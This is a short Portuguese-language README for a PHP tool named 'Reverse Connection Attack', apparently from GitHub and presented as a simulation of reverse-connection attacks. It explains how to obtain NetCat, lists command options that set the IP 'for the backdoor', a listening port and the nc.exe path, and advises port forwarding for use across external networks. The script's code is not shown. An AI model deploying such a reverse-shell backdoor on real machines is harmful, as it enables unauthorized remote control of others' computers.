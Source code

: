 # Reverse Connection Attack
__Script criado para simular ataques de conexão reversa mundialmente conhecido, de uma forma simples e utilizando a linguagem PHP__

<br>

__Importante*: Você precisa ter o NetCat em seu pc.__

<br>

**Caso já tenha, então pule os passos a seguir. Caso não tenha, baixe: https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip. Após baixado, coloque-o nas variáveis de ambiente para poder ser acessada de qualquer lugar do sistema, caso não, diga para o script o caminho até o Netcat.**
<table>
<tr>
  <th>Comando</th>
  <th>Opções</th>
  <th>Definição</th>
</tr>
<tr>
  <td rowspan="4">php client.php</td>
</tr>
<tr>
  <td>-h ou --host</td>
  <td>Define o seu IP para a backdoor</td>
</tr>
<tr>
  <td>-p ou --port</td>
  <td>Define a porta de escuta. Se utiliza para redes externas, libere a porta no firewall e permita o Port Fowarding no seu roteador principal.</td>
</tr>
<tr>
  <td>-dir ou --directory</td>
  <td>Define o caminho (completo) do sistema até o arquivo .exe do Netcat</td>
</tr>
</table>

<br>

**Exemplos de uso:**

<li>php client.php --host 127.0.0.1 -p 7500</li>

<li>php client.php -h 127.0.0.1 -p 8080 --directory C:\\Users\\(seu usuário)\\Documents\\netcat-win32-1.12\\nc.exe</li>

<li>php client.php --host 192.168.1.40 --port 6405 -d (Caminho completo)</li>
